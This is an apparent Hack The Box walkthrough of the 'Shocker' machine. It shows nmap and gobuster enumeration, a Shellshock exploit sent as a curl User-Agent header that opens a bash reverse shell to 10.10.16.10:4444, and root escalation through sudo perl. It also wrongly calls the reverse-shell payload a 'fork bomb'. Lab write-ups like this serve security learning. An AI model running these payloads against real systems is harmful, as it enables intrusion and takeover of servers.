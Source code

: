 ```yaml
---
title: Shocker
published: true
layout: post
---
```


<br />

---------------
Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers. 

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/39UcPshUAz4?si=IeLq1uW47rTgFPHf" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.10.56 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn
```

![](/assets/Shocker/1.png)
<br />
<br />
<br />

There are **2 open ports**:
+ **80/tcp**
+ **2222/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.56 -p 80,2222 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A
```

![](/assets/Shocker/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **80/tcp Apache httpd 2.4.18**
+ **2222/tcp OpenSSH 7.2.p2**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.56 -p 80,2222 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn
```

![](/assets/Shocker/3.png)
<br />
<br />
<br />

The scan reports nothing interesting.

<br />

------

<br />
### Foothold

The foothold in this machine is easy if you have heard previously about the vulnerability ***ShellShock***, which is related to the directory ***/cgi-bin/*** in a web server.

<br />

During our web enumeration, we will find some directories with `gobuster`, among others a relevant directory, ***/cgi-bin/***:

```bash
gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster_dir_and_file_enum_80.txt -t 50 -r --add-slash
```

![](/assets/Shocker/4.png)
<br />
<br />
<br />

Knowing that this directory exists, and it usually contains **scripts**, we can enumerate this directory looking for them:

```bash
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster_dir_and_file_enum_80_cgi-bin.txt -x -t 50 -r --add-slash
```

![](/assets/Shocker/5.png)
<br />
<br />
<br />

We can download the script, but it doesn't contain any relevant information, so we can go for a **ShellShock vulnerability**, it is actually an easy exploit, we just have to deliver a **fork bomb** using a header, like the ***User-Agent***:

```bash
curl http://10.10.10.56/cgi-bin/user.sh -H "User-Agent: () { :; }; echo; /bin/bash -c ' /bin/bash -i >& /dev/tcp/10.10.16.10/4444 0>&1'"
```

![](/assets/Shocker/6.png)
<br />
<br />
<br />

Great, we have RCE as the **user shelly**, so let's send us a reverse shell and grab the user flag:

```bash
rlwrap nc -nlvp 4444
```

```bash
curl http://10.10.10.56/cgi-bin/user.sh -H "User-Agent: () { :; }; echo; /bin/bash -c ' /bin/bash -i >& /dev/tcp/10.10.16.10/4444 0>&1'"
```

![](/assets/Shocker/7.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation

The privilege escalation for this machine is very straightforward, we can get it by an **easy enumeration**, however, we can get distracted by user groups, who are misleading.

<br />

```bash
sudo -l
```

![](/assets/Shocker/8.png)
<br />
<br />
<br />

As we can run `perl` with `sudo` without restrictions, we can elevate our privileges easily, sanitize our shell and grab the root flag:

```bash
sudo perl -e "exec '/bin/bash;'"
script /dev/null -c bash
```

![](/assets/Shocker/9.png)
<br />
<br />
<br />
